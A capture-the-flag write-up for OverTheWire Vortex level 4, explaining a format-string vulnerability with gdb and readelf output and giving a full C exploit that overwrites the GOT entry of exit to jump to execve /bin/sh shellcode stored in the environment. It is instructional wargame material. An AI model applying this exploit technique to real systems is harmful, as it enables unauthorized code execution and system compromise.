 # Overthewire Vortex Level 4 Writeup

This one is a "non-standard" format string overflow. I say non-standard since the start address of the first argument of `printf` of the "standard" one is usually fixed. If your input length is not a constant, you will find debugging of this program is completely a disaster.

```c
// -- andrewg, original author was zen-parse :)
#include <stdlib.h>


int main(int argc, char **argv)
{
        if(argc) exit(0);
        printf(argv[3]);
        exit(EXIT_FAILURE);
}
```

The `argv` array must end with `NULL`. So `argv[0]` is `NULL`, `argv[3]` is `env[2]`. After messing with the length, `%n` finally hits the right offset.

```
#0  0xf7e69873 in ?? ()
(gdb) i r
eax            0x41414141 1094795585
ecx            0x4  4
edx            0xffffffff -1
ebx            0xf7fca000 -134438912
esp            0xffffa210 0xffffa210
ebp            0xffffdc88 0xffffdc88
esi            0xf7fcaac0 -134436160
edi            0xffffdc70 -9104
eip            0xf7e69873 0xf7e69873
eflags         0x10246  [ PF ZF IF RF ]
cs             0x23 35
ss             0x2b 43
ds             0x2b 43
es             0x2b 43
fs             0x0  0
gs             0x63 99
```

You see `eax` is `0x41414141` and `ecx` is 4. 4 is the length of `AAAA`. `0xf7e69873` is totally nonsense. When there is an overflow, `printf`jumps to this address to make debugging harder. But this weird behavior could not stop me. It is worthnoting that, you should use the original program to debug, not the copied one. Otherwise the stack layout in `gdb` is slightly different(Though I have control of `argv` and `env`).

If `printf` sucessfully overwrites GOT entry of `exit`, we can jump to the shellcode at `env[0]`. Extract the address of `env[0]` in `gdb`:

```
(gdb) x/s *((char **)environ)
0xffffde15: "1\300Ph//shh/bin\211\343PS\211\341\211\302\260\v\315\200"
```

```
$ readelf -r /vortex/vortex4

Relocation section '.rel.dyn' at offset 0x2ac contains 1 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000206 R_386_GLOB_DAT    00000000   __gmon_start__

Relocation section '.rel.plt' at offset 0x2b4 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf
0804a010  00000207 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a014  00000307 R_386_JUMP_SLOT   00000000   exit
0804a018  00000407 R_386_JUMP_SLOT   00000000   __libc_start_main
```

I need to overwrite the content on address `0804a014` with 0xffffde15. The final exploit is below. You need to adjust the `439` by yourself in order to trigger an overflow which writes to `AAAA`.

```c
#include <unistd.h>
#include <string.h>
#include <stdio.h>

int main() {
  int i;
  char buf[2048];
  int used = 0;
  // strncpy(buf, "AAAA", strlen("AAAA"));
  // used += 4;
  char payload[] = "\x14\xa0\x04\x08\x16\xa0\x04\x08%56845c%104$hn%8682c%105$hn";
  strncpy(buf, payload, strlen(payload));
  used += strlen(payload);

  for (i = 0; i < 104; i++)
  {
    strncpy(buf + used, "%p ", strlen("%p "));
    used += 3;
  }
  printf("debug, used: %d\n", used);

  // strncpy(buf + used, "%104$n", strlen("%104$n"));
  // used += strlen("%104$n");


  printf("Padding...\n");
  int times = 439 - used;
  for (i = 0; i < times; i++)
  {
    strncpy(buf + used, "B", strlen("B"));
    used += 1;
  }

  buf[used] = NULL;
  printf("buf: %s\n", buf);
  printf("len of buf: %d\n", strlen(buf));


  char *argv[] = {NULL};
  char *env[4];
  env[0] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80";
  env[1] = "";


  env[2] = buf;
  env[3] = NULL;
  execve("/vortex/vortex4", argv, env);
  return 0;
}
```
